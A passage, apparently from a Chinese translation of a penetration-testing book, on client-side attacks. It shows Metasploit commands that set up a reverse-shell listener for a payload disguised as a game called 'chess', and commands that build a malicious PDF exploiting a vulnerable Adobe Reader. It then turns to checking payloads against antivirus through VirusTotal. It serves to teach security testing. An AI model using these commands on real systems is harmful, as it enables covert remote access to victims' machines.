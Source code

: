 我们现在准备进行下一步，即将文件传输到受害者机器上，以便他们可以执行它。这就是为什么我们选择了`chess`这个名字；看起来我们为他们准备了一个游戏。在将文件传输到机器之前，我们必须设置 metasploit 工具以接收连接。在 metasploit 窗口中，输入以下内容：

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 192.168.177.170
set LPORT 4444
exploit

```

这种结果的示例如下屏幕截图所示：

二进制有效负载

我们现在已经准备好受害者连接。就像在整章中一样，我们将文件复制到受害者机器上，然后执行它。由于我们已经解释了很多次，我们将继续下一个项目。

# 恶意 PDF 文件

另一个常见的攻击载体是使用常见文件来托管我们的利用代码，这就是我们在恶意 PDF 文件中所做的。我们将在 PDF 文件中创建一个有效负载；当受害者使用易受攻击的 Adobe Reader 版本运行它时，我们就可以访问该机器。这种载体已经多次被用来妥协大量公司。在 metasploit 中，有许多工具可供我们使用来创建 PDF 文件。在 metasploit 中输入以下命令：

```
use exploit/windows/fileformat/adobe_utilprintf
set FILENAME pay.pdf
set LHOST <Kali>
set LPORT 5555
show options
exploit

```

此命令的输出示例如下屏幕截图所示：

恶意 PDF 文件

正如前面的屏幕截图所示，我们现在将有效负载伪装成 PDF。屏幕截图还显示，我们需要特定版本的 Adobe 才能使漏洞利用起作用。同样，我们已经经历了足够的过程，这里就不再重复了。过程是一样的；唯一的区别是我们将使用 PDF 文件作为攻击的载体。

# 绕过杀毒软件和其他保护工具

我们在客户端测试中面临的挑战之一是（很可能）会有端点保护措施，因此不仅有可能被抓住，还有可能被主机保护删除我们的载体。与任何基于签名的检测一样，存在一个包含已发现的不同病毒及其变种签名的数据库。当我们查看本章中使用的技术时，我们需要看看我们开发的有效负载是否会被杀毒软件检测到。

### 注意

一个非常有帮助的网站是[www.virustotal.com](http://www.virustotal.com)。

我们可以上传我们的潜在有效负载，并查看杀毒软件是否检测到它。在本章前面创建的`https.exe`文件的示例如下屏幕截图所示：

绕过杀毒软件和其他保护工具

正如前面的屏幕截图所示，51 个杀毒产品中有 34 个检测到了该文件。这大约占了 67%，并不是一个很好的检测率。与之前一样，我们将查看我们正在测试的网站是否有杀毒软件的版本，然后我们将查看该产品在查看文件时是否成功。以下屏幕截图显示了一些未将代码检测为恶意的产品示例：
